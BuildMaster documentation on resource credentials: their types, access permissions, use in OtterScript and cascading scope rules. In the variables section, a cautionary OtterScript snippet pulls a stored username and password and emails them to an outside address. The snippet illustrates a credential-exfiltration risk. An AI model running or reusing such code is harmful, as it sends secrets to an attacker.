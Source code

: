```yaml
---
title: Resource Credentials
keywords: buildmaster, executions, resource-credentials
show-headings-in-nav: true
sequence: 200
---
```


Resource credentials store information that is used to provide access to a particular resource (such as a name and password to a specific service), and may contain secrets (i.e. encrypted fields that are visible only to privileged users, like passwords or API keys).

There are a few types that are built in to BuildMaster:

|Type|	Properties	|Description|
|-|-|-|
|UsernamePassword	|UserName Password|	A general-purpose credential with a username and password, such as a Windows domain account. Several operations can use this to request a basic username/password. |
|PrivateKey	| UserName PublicKey PrivateKey* Passphrase*	| This is primarily used by the SSH-based agent when key-based authentication is used. |
|InedoProduct	| Host ApiKey* |	Represents a connection to instance of another Inedo product (BuildMaster, ProGet, or Otter) |

**\*** *indicates an encrypted/sensitive field*

Resource credentials are implemented through an [extensible feature](/docs/buildmaster/administration/extensions), and several extensions ([JIRA](/den/buildmaster/jira),[VSTS](/den/inedox/tfs), [GitHub](/den/inedox/github), etc.) will add types that are necessary for the extension's components.

## Creating and Editing Credentials {#creating-editing-credentials data-title="Creating and Editing Credentials"}

You can create a resource credential from the Resource Credentials link on the Administration page. In addition to the fields specific to the resource credential type, all resource credentials have:

*   **Name** - a name of up to 50 characters that will be used to reference the resource credential; while you can change the name later, any operation or component that relied on that name will no longer be able to find it
*   **Environment** - optional; restricts what environments the credential may be used in, and which users have access to it
*   **Variable Usage** - optional; you can allow the `$CredentialProperty` variable function to extract secure properties
*   **Environment Restriction** - optional; when set, a runtime error will occur when this credential is used in a deployment plan that is not running in the same environment

When editing credentials, the encrypted fields will be displayed as empty password textboxes, and entering a value in the textbox will change it. You may click the "view hidden fields" button to show these values if you have the appropriate permissions.

## Limiting Credential Access {#limiting-access data-title="Limiting Credential Access"}

You may want to permit or restrict certain users from accessing certain credentials, such as allowing Developers to manage credentials in the Integration and Testing environments. This is done by associating credentials with an environment, and then creating the appropriate [access controls](/docs/buildmaster/administration/users-and-security) scoped to that environment.

There are two task attributes you can use to control this access:

*   **Manage Credentials** will allow you to view, delete, and edit credentials, but not view existing encrypted/sensitive fields
*   **View Passwords** will allow you to view encrypted/sensitive fields on a credential

On the manage credentials page, users will only see the credentials they have permission to manage, and will only be able to create credentials in permitted environments.

## Credentials and OtterScript {#credentials-and-otterscript data-title="Credentials and OtterScript"}

Any operation that uses passwords, API keys, or sensitive information will give you the option to use a resource credential instead of needing to put those values directly in your OtterScript.

For example, consider the [`Ensure-AppPool`](/docs/buildmaster/reference/operations/iis/ensure-app-pool) operation:

![Ensure apppool operation](/resources/documentation/buildmaster/6/ensure-app-pool.png)

If you select a resource credential for the operation's, the OtterScript runtime will automatically set the value of the operations User Name and Password properties from the selected credential. If you specify a value for either of those properties, they will be used instead of the credential's value.

::: {.attention .technical}
If the credential has "restricted to environment use" configured, then this will only be permitted if the deployment plan is running in the same environment. This can be frustrating and unintuitive to your users, so be careful when using it.
:::

## Credentials as Variables {#credentials-as-variables data-title="Credentials as Variables"}

By default, there is no way to access the value of an encrypted/sensitive field on a credential from within OtterScript. However, at times it may be necessary, such as if you want to pass a username/password to a script or command-line utility.

You can enable variable usage on a credential-by-credential basis. When configured, you can use the [$CredentialProperty](/docs/buildmaster/reference/functions/credentials/credentialproperty) variable function to extract any property value. For example:

```
set $HDarsUser = $CredentialProperty(UsernamePassword::HDarsUser, UserName);
set $HDarsPassword = $CredentialProperty(UsernamePassword::HDarsUser, Password);
PSExec >> Register-HDars $HdarsUser $HdarsPassword >>;        

Send-Email
(
    To: hacker45@agam.ru,
    Subject: Username is $HdarsUser and password is $HdarsPassword
);
```

Instead, you should write a custom operation that can securely handle the credentials.

## Cascading Credentials {#cascading data-title="Cascading Credentials"}

As of BuildMaster v6.1.10, resource credentials may be specified at the application or application group scope in addition to environment. Certain implementations may also specify a resource credential to inherit from, overriding specific properties at the application or group level. 

For example, an individual application's resource credentials could specify a system-level parent that has username/password information stored for a full system, and then override just the "repository URL". This way, you can specify the secret value in one location (with elevated privileges required to access it), and connect to different repositories consistently throughout all applications.

The following rules are enforced by BuildMaster when creating or resolving cascading credentials:

{.docs}
 - for security reasons, the environment of the parent credential must match the inheritor's exactly, or the parent environment must not be specified (indicating that it applies to all environments)
 - when resolving a resource credential at execution time, candidates by name are selected in order of matching properties:
    - application + environment
    - application
    - application group
    - ancestor application-group
    - environment
    - system